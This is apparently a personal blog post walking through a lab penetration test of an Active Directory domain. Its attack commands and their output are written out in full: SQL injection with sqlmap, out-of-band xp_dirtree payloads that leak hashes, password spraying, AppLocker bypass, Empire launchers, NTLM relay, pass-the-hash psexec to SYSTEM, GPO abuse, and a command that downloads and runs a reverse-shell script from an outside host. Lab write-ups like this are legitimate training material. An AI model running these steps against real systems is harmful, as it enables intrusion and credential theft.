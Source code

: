 ```yaml
---
layout: post
title: Active Dirctory Adventures part 1
---
```


Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
This post is about going from external client to Domain Controller using some fun tools and tricks.

There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)


`nmap -T4 -sV -Pn -p80,443 10.7.12.0/24`

![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)

We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.

![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)


The url shows an aspx script that makes a call to the databse to retrieve product information.
We capture the request with Burp Suite and probe this injection point with sqlmap.

![](https://braaaax.github.io/braaaax.github.io/images/lky-mvc-web-req.jpg)

We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.


`sqlmap -r product.req --level=5 --risk=3`

This proves successful and we are able to dump the entire database. 
Of interest is a table giving Active Directory users fullnames and their respective groups

```

Database: ADConnect
Table: ADUsers
[40 entries]
+------------+-------------+-----------------+
| LastName   | FirstName   | Department      |
+------------+-------------+-----------------+
| Vazquez    | Annie       | Finance         |
| Falcon     | Paul        | Finance         |
| Anthony    | Fae         | Finance         |
| Dillard    | Walter      | Finance         |
| Bradford   | Louis       | Finance         |
| Gage       | Sonya       | Finance         |
| Sanchez    | Alba        | Finance         |
| Branch     | Daniel      | Finance         |
| Cruz       | Christopher | Finance         |
| Johnson    | Nicole      | Finance         |
| Holliday   | Mary        | Human Resources |
| Shoemaker  | Michael     | Human Resources |
| Slater     | Arlene      | Human Resources |
| Prentiss   | Kelsey      | Human Resources |
| Davis      | Ginger      | Human Resources |
| McDaniel   | Johnny      | Human Resources |
| Jones      | James       | Human Resources |
| Garcia     | Thomas      | Human Resources |
| Harrison   | Melissa     | Human Resources |
| Hight      | Nicholas    | Human Resources |
| Baird      | William     | Marketing       |
| Ochoa      | Michelle    | Marketing       |
| Hopkins    | Joshua      | Marketing       |
| Blea       | Howard      | Marketing       |
| Pennington | Clara       | Marketing       |
| Glen       | David       | Marketing       |
| Hartsfield | Kim         | Marketing       |
| Ramirez    | Rita        | Marketing       |
| Hafner     | Opal        | Marketing       |
| Matthews   | Louie       | Marketing       |
| Okeefe     | Lee         | Sales           |
| Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+

```

Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.

![](https://braaaax.github.io/braaaax.github.io/images/lky-rdweb-login.jpg)

For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:


Intruder: 
*  you can use the "cluster bomb" attack
*  remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
*  we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
*  make sure to Always Follow Redirection in the options tab


![](https://braaaax.github.io/braaaax.github.io/images/lky-burp-intruder.jpg)


```python

import csv
with open("/root/.sqlmap/output/10.7.12.12/dump/ADConnect/ADUsers.csv") as csvfile:
    reader = csv.DictReader(csvfile)
    for row in reader:
        print('{}{}'.format(row['FirstName'][0].lower(), row['LastName'].lower()))

```

Passords List:
Summer2017!
Winter2017!
Fall2017!
Spring2017!
Summer2018!
Winter2018!
Fall2018!
Spring2018!


User Credentials Found:
avazquez:Spring2017!
mholliday:Summer2017!
wbaird:Autum2017!

We attempt a login with LAB\avazquez, and success!
![](https://braaaax.github.io/braaaax.github.io/images/lky-valid-login.jpg)

We don't want the rdweb and its two applications, we want the full experience. So we log into Annie's account with remmina.
![](https://braaaax.github.io/braaaax.github.io/images/lkys-remmina.jpg)


We can see Windows Defender and Applocker are preventing us from executing most things (Applocker includes AMSI). Pasting the contents of [applocker-bypass-checker.ps1](https://github.com/barryclark/jekyll-now) into notepad and saving as a .ps1 file allows us to sidestepp Defender momentarilly. Running shows us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth.

![](https://braaaax.github.io/braaaax.github.io/images/lky-Applocker-Bypass.png)

![](https://braaaax.github.io/braaaax.github.io/images/lky-constrained-PS.png)

![](https://braaaax.github.io/braaaax.github.io/images/lky-powershdll.png)

We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener

Going from msf to empire (via Chryzsh):
In Empire:
create a default http listener named "http"
*  uselistener http
*  set Host 10.7.253.10
*  set Port 4444
*  execute

create copy launcher, created w/o base64
*  back
*  usestager multi/launcher
*  set Base64 false
*  generate

In MSF:
*  load powershell
*  powershell_shell
*  paste listener and execute await agent in empire

With empire we can enumerate the system easilly:

>ComputerName
>------------
>DC01
>WS03
>FS01
>MX01
>WEB01
>WS05
>RDS02
>SQL01



Discover a helpful VPN to facilitate internal access to the interior subnet to avoid lots of proxies. Alternative methods would be to use Inveigh.
//FS01.lab.local/GroupData/LabUserVPN.ovpn


We can use responder and ntlnrelayx to dump hashes
./Responder.py -I tun1 -wrf 
  -disable http/s and smb
./ntlmrelayx.py -tf ~/lkys37en-lab/labnotes/targets.txt

But we're not getting anything. We need to induce a user, in this case the owner of the sqldatabase to make a rquest.

Out of band SQLi
We have an injection point from step one. To prompt the hash of the owner of the sql db to be sent to responder we need to instigat a DNS query to our IP. We are requesting data be sent via HTML, SMB, or DNS. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()). Supplying a hostname to these functions will cause a DNS lookup to occur. We're not interested in successful transmission of the information but the target user with send their netNTLMv2 hash along with their request to our machine. [Futher Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)

```
/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.8.254.14\test1'; exec master.dbo.xp_dirtree @q
/mvc/Product.aspx?ProductSubCategoryId=18;declare%20@q%20varchar(99);set%20@q=%27\\10.8.254.14\test1%27;%20exec%20master.dbo.xp_dirtree%20@q
```

```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.8.14.14.....
[*] Found writable share ADMIN$
[*] Uploading file JkqJuZDF.exe
[*] Opening SVCManager on 10.8.14.14.....
[*] Creating service HPPN on 10.8.14.14.....
[*] Starting service HPPN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

System on sql01 then use token impersonation to get to bdavis

GPO Enumeration:
Get Group Policy Objects
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}

Add "Server Admins" to the below file
type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"

Invoke-GpUpdate -Computer MX01 -Force

Since BDavis is a user on MX01 we can move laterally via Invoke-Command or just run Mimikatz on the Box
Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-PowerShellTcpOneLine.ps1')}
Invoke-Command -ComputerName MX01 -ScriptBlock {.\Invoke-Mimikatz.ps1)}

we get NTLM hashes for BDavis and Ross, who is a Domain Admin. 
With this info we are able to use the Ross account to add us to net users and Domain Admins
we user cme to expoit the hashes and get a shell.


![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-screenshot.png)


[Jekyll Now repository](https://github.com/barryclark/jekyll-now) on GitHub.
